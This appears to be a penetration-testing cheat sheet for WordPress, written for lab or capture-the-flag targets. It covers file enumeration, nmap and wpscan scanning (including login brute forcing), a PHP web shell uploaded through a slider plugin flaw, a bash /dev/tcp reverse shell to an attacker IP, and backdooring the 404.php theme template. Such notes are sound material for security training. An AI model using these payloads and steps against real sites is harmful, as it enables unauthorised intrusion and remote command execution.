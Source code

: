 # WordPress

## Enumeration

### Interesting Files

* wp-content
* wp-content/plugins
  * Check this directory even if `wpscan` doesn't identify any installed plugin
    * May not work though - check sources code of blog pages
* wp-admin
* wp-config.php
* wp-trackback.php
* wp-login.php

```
-rwxr-xr-x  1 www-data www-data   405 Feb  6  2020 index.php
-rwxr-xr-x  1 www-data www-data 19915 Jan  1  2021 license.txt
-rwxr-xr-x  1 www-data www-data  7346 Sep 30 00:41 readme.html
-rwxr-xr-x  1 www-data www-data  7165 Jan 21  2021 wp-activate.php
drwxr-xr-x  9 www-data www-data  4096 Nov 10 14:18 wp-admin
-rwxr-xr-x  1 www-data www-data   351 Feb  6  2020 wp-blog-header.php
-rwxr-xr-x  1 www-data www-data  2328 Feb 17  2021 wp-comments-post.php
-rwxr-xr-x  1 www-data www-data  3769 Nov  8 17:01 wp-config.php
drwxr-xr-x  6 www-data www-data  4096 Feb  9 22:51 wp-content
-rwxr-xr-x  1 www-data www-data  3939 Jul 30  2020 wp-cron.php
drwxr-xr-x 25 www-data www-data 16384 Nov 10 14:18 wp-includes
-rwxr-xr-x  1 www-data www-data  2496 Feb  6  2020 wp-links-opml.php
-rwxr-xr-x  1 www-data www-data  3900 May 15  2021 wp-load.php
-rwxr-xr-x  1 www-data www-data 45463 Apr  6  2021 wp-login.php
-rwxr-xr-x  1 www-data www-data  8509 Apr 14  2020 wp-mail.php
-rwxr-xr-x  1 www-data www-data 22297 Jun  1  2021 wp-settings.php
-rwxr-xr-x  1 www-data www-data 31693 May  7  2021 wp-signup.php
-rwxr-xr-x  1 www-data www-data  4747 Oct  8  2020 wp-trackback.php
-rwxr-xr-x  1 www-data www-data  3236 Jun  8  2020 xmlrpc.php
```

### Scanning

#### nmap

```bash
nmap -sV --script=http-wordpress-brute.nse,http-wordpress-enum.nse,http-wordpress-users -p80 <IP>

```

#### wpscan

```bash
# Basic Scan
wpscan --url http://10.10.248.119 -o wpscan.log
# Enumerate vulnerable plugins, themes, and users
wpscan --url http://10.10.248.119 -e vp,vt,u -o wpscan.log --api-token <>
# Aggressive Mode
wpscan --url http://10.10.192.249 -e vp --plugins-detection aggressive
# Brute Forcing Login
wpscan --url http://10.10.128.156 -U users.txt -P /usr/share/wordlists/rockyou.txt -vv
```

## Exploitation

### Plugins

* Can add modified WordPress plugin header to the top of the reverse shell file
* Upload reverse shell plugin as a zip file

#### Responsive Thumbnail Slider

* Using 'php/webapps/37998.txt' we can follow the steps from within the file.
* Responsive Thumbnail Slider --> Manage Images --> Add New
* Create a file called shell.php.jpg with the below contents:
  * `<?php system($_GET["cmd"]) ?>`
* With Burp Intercept on, upload the the file and send the request to Repeater
  * Modify the filename from shell.php.jpg to shell.php and send the modified request
* Turn off Intercept and back on the web page it should show "New image added successfully"
* There are two new entries of images (initial request and repeater request)
* Clicking on the webshell entry bring us to a new page and gives the link to the image
* Clicking the link brings us to the file and can now get command execution
  * By appending `?cmd=id`
* Now to get a reverse shell by updating the payload value
  * `?cmd=/bin/bash -c "bash -i>& /dev/tcp/<IP>/4444 0>&1"`
  * Note: It may have to be URL encoded

### Themes Templates

#### 404.php

* Edit the 404.php template to include a reverse shell payload
* Appearance --> Theme Editor
* Select 404 Template from the right side pane
* Linux
  * Copy the contents of /usr/share/webshells/php/php-reverse-shell.php and replace the contents in the 404.php template
    * Update the attacker machine IP and port as necessary
    * Then click on the Update File button
* Windows
  * Copy the contents of /usr/share/webshells/php/qsd-php-backdoor.php and replace the contents in the 404.php template
    * Generate an msfvenom payload and upload it to a directory
    * Execute payload from main page calling the absolute path
* Start a netcat listener&#x20;
  * Try executing by visiting a page that doesn't exist
    * `http://demo.ine.local/i-dont-exist`
      * And a reverse shell connection is made
  * Try navigating to the 404.php file location
    * http://\<IP>/wordpress/404.php

